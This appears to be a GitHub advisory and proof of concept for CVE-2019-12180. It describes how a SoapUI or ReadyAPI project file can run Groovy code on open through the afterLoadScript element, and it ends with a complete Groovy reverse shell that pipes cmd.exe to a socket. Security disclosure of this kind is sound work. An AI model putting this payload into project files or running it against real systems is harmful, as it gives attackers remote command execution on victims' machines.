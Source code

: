 # CVE-2019-12180
Advisory & PoC

SoapUI and ReadyAPI allow you to create or add dynamic contents to test cases
(for example, to calculate a timestamp on the fly) using Apache Groovy Language
scripts. Execution of these scripts can be triggered in many ways and they are
stored inside the XML "Project file" once a project is saved. 

The "Load Script" function allows to create a Groovy script that is launched
once the project file is opened (con:afterLoadScript element of the XML Project
file) without any further user interaction. This behavior can be abused by an
attacker to create malicious project files that, once opened, execute arbitrary
Groovy code on the victim system. Since it is possible to execute system
commands using the Groovy language, this feature can be abused to execute
remote commands effectively.

NOTE: the same goal can be achieved by exploiting any other Groovy script capable
function ("Save script" for example), but this will require additional user
interaction after loading the project file.


Vulnerable Application: 
 - ReadyAPI 3.0.0
 - 2.8.2 and earlier
 - SoapUI 5.5 and earlier

<b>At the time of writing (2020-02-04), this is a 0day vulnerability, since 
(multiple) proposed disclosure dates have passed with no patch release by the
vendor. </b>

Example Groovy Reverse shell (https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76):

<code>

String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
</code>
